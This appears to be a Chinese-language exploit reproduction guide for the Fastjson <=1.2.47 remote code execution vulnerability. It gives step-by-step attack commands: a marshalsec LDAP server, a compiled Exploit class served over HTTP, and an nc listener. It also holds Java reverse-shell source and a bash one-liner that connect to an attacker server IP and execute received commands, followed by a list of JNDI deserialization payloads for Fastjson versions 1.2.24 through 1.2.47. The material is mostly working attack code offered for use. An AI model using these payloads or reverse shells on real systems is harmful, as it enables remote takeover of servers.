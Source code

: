 # Fastjson \_=1.2.47 远程代码执行漏洞

### Fastjson <=1.2.47 远程代码执行漏洞 <a href="#fastjson1247-yuan-cheng-dai-ma-zhi-hang-lou-dong" id="fastjson1247-yuan-cheng-dai-ma-zhi-hang-lou-dong"></a>

### 一、漏洞简介 <a href="#yi-lou-dong-jian-jie" id="yi-lou-dong-jian-jie"></a>

### 二、漏洞影响 <a href="#er-lou-dong-ying-xiang" id="er-lou-dong-ying-xiang"></a>

Fastjson < 1.2.47

### 三、复现过程 <a href="#san-fu-xian-guo-cheng" id="san-fu-xian-guo-cheng"></a>

**https://github.com/ianxtianxt/fastjson-1.2.47-RCE-1**

* 执行：

java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://IPvps/#Exploit

1.png

* 修改反弹ip和端口：

vim Exploit.java

* 编译生成class：//需要使用jdk1.8，否则会报错

javac Exploit.java

* 开启http服务：

python3 -m http.server 80 或者 python -m SimpleHTTPServer 80

* payload:

{"name":{"@type":"java.lang.Class","val":"com.sun.rowset.JdbcRowSetImpl"},"x":{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"ldap://ip:1389/Exploit","autoCommit":true}}}

* 开启nc监听反弹：

nc -lvvp 8888

#### 反弹shell poc补充 <a href="#fan-dan-shellpoc-bu-chong" id="fan-dan-shellpoc-bu-chong"></a>

**java反弹shell，无法直接使用bash -i >& /dev/tcp/攻击服务器ip/8888 0>&1**

import java.io.BufferedReader;\
import java.io.InputStream;\
import java.io.InputStreamReader;

public class Exploit{\
public Exploit() throws Exception {\
Process p = Runtime.getRuntime().exec(new String\[]{"/bin/bash","-c","exec 5<>/dev/tcp/攻击服务器ip/888;cat <&5 | while read line; do $line 2>&5 >&5; done"});\
InputStream is = p.getInputStream();\
BufferedReader reader = new BufferedReader(new InputStreamReader(is));

String line;\
while((line = reader.readLine()) != null) {\
System.out.println(line);\
}

p.waitFor();\
is.close();\
reader.close();\
p.destroy();\
}

public static void main(String\[] args) throws Exception {\
}\
}

#### 补充 <a href="#bu-chong" id="bu-chong"></a>

**https://github.com/ianxtianxt/Fastjson-1.2.47-rce**

1.2.24\
{"b":{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"rmi://localhost:1099/Exploit", "autoCommit":true}}

未知版本(1.2.24-41之间)\
{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"rmi://localhost:1099/Exploit","autoCommit":true}

1.2.41\
{"@type":"Lcom.sun.rowset.RowSetImpl;","dataSourceName":"rmi://localhost:1099/Exploit","autoCommit":true}

1.2.42\
{"@type":"LLcom.sun.rowset.JdbcRowSetImpl;;","dataSourceName":"rmi://localhost:1099/Exploit","autoCommit":true};

1.2.43\
{"@type":"\[com.sun.rowset.JdbcRowSetImpl"\[{"dataSourceName":"rmi://localhost:1099/Exploit","autoCommit":true]}

1.2.45\
{"@type":"org.apache.ibatis.datasource.jndi.JndiDataSourceFactory","properties":{"data\_source":"rmi://localhost:1099/Exploit"}}

1.2.47\
{"a":{"@type":"java.lang.Class","val":"com.sun.rowset.JdbcRowSetImpl"},"b":{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"rmi://localhost:1099/Exploit","autoCommit":true}}}
